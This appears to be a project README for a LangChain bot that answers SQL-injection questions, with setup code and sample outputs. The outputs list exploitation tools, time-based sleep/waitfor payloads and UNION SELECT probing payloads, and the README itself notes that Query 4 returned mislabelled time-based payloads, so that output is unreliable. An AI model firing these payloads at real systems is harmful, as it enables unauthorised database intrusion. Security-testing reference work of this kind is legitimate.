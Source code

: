 # SQL-Injection-LLM-Bot
Get SQL Injection information using this Bot

### Steps:
1. Load the required libraries:
```
from langchain.chat_models import ChatOpenAI # --> OpenAI's LLM
from langchain.document_loaders import GitLoader # --> To clone the repo from GitHub
from langchain.indexes import VectorstoreIndexCreator # --> To create embeddings and indexes
from langchain.vectorstores import DocArrayInMemorySearch # --> Vector Database for LLM interaction
from IPython.display import display, Markdown # --> Output display
```
2. Clone the Repo using GitLoader from Langchain DocumentLoaders
```
loader = GitLoader(
    clone_url="https://github.com/hwchase17/langchain",
    repo_path="./example_data/test_repo2/",
    branch="master",
)

data = loader.load()
```
3. Created a Vector Database
```
index = VectorstoreIndexCreator(
    vectorstore_cls=DocArrayInMemorySearch
).from_loaders([loader])
```
4. Initialize the LLM
```
llm = ChatOpenAI(temperature = 0.0)
```
5. Query the database
```
query = "......"

response = index.query(query, llm=llm)

display(Markdown(response))
```

### Results
Query 1
```
query = "List all the different types of SQL Injections"
-----

Output:

The different types of SQL injections are:

In-band SQLi (Classic SQLi)
Error-based SQLi
Union-based SQLi
Inferential SQLi (Blind SQLi)
Blind-boolean-based SQLi
Blind-time-based SQLi
```

Query 2
```
query = "List all the SQL Injection Vulnerability Scanner Tools"
-----

Output:

Here is a list of SQL Injection Vulnerability Scanner Tools:

SQLMap - Automatic SQL Injection And Database Takeover Tool
jSQL Injection - Java Tool For Automatic SQL Database Injection
BBQSQL - A Blind SQL-Injection Exploitation Tool
NoSQLMap - Automated NoSQL Database Pwnage
Whitewidow - SQL Vulnerability Scanner
DSSS - Damn Small SQLi Scanner
explo - Human And Machine Readable Web Vulnerability Testing Format
Blind-Sql-Bitshifting - Blind SQL-Injection via Bitshifting
Leviathan - Wide Range Mass Audit Toolkit
Blisqy - Exploit Time-based blind-SQL-injection in HTTP-Headers (MySQL/MariaDB)
These tools can help identify and exploit SQL injection vulnerabilities in web applications.
```

Query 3
```
query = "List some Generic Time Based SQL Injection Payloads"
-----

Output:

Here are some examples of generic time-based SQL injection payloads:

1. sleep(5)#
2. 1 or sleep(5)#
3. " or sleep(5)#
4. ' or sleep(5)#
5. " or sleep(5)="#
6. ' or sleep(5)='
7. 1) or sleep(5)#
8. ") or sleep(5)="#
9. ') or sleep(5)='
10. 1)) or sleep(5)#
11. ")) or sleep(5)="#
12. ')) or sleep(5)='
13. ;waitfor delay '0:0:5'--
14. );waitfor delay '0:0:5'--
15. ';waitfor delay '0:0:5'--
16. ";waitfor delay '0:0:5'--
17. ');waitfor delay '0:0:5'--
18. ");waitfor delay '0:0:5'--
19. ));waitfor delay '0:0:5'--
20. '));waitfor delay '0:0:5'--
21. "));waitfor delay '0:0:5'--
22. benchmark(10000000,MD5(1))#
These payloads can be used to test for time-based SQL injection vulnerabilities in web applications.
```

Query 4
```
query = "List some Generic Union Select Payloads"
----

Output:

Here are some examples of generic Union Select payloads that can be used in SQL injection attacks:

1. , (select * from (select(sleep(10)))a)
2. %2c(select%20*%20from%20(select(sleep(10)))a)
3. ';WAITFOR DELAY '0:0:30'--
These payloads can be used to perform Union-based SQL injection attacks by injecting malicious SQL code into vulnerable input fields. It is important to note that these payloads may need to be modified or customized based on the specific target and the underlying database management system being used.
```

Query 5
```
query = "List some Generic UNION SELECT Payloads"
----

Output:

Here are some examples of generic UNION SELECT payloads:

UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
These payloads can be used to test for SQL injection vulnerabilities by injecting a UNION SELECT statement into a vulnerable parameter and checking if the response contains the injected payload.
```

### Observations
1. Query 4 and Query 5 are the same but the LLM considered the SQL commands strictly.
2. The LLM returned Generic Time Based SQL Injection Payloads for the Query 4: List some Generic Union Select Payloads

### Improvements
- [ ] Fine-tune the LLM to mitigate the Query 4 and Query 5 issue
- [ ] Evaluate the LLM using Manual and LLM evaluation methods
- [ ] Try different LLM vendors
